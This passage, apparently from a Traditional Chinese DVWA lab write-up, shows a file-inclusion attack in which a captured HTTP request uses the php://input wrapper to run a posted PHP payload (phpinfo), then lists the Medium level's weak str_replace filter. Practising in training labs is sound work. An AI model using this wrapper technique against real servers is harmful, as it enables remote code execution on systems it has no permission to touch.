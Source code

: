 
* 抓包放上post數據:
```
<?php phpinfo();?>
```


```http=
GET /vulnerabilities/fi/?page=php://input HTTP/1.1
Host: www.dvwa.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=432djeae29soff0qvj2mcgties; security=low
Upgrade-Insecure-Requests: 1

<?php phpinfo();?>
```

發過去就會成功執行。

偽協議還有一大堆，有興趣可以自行搜索。

<br/><br/><br/><br/>


# Medium

code:



```php=
<?php

// The page we wish to display
$file = $_GET[ 'page' ];



/* 
 * 
字串http://轉空
字串https://轉空
../ 轉空
..\ 轉空

*/
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?> 


```
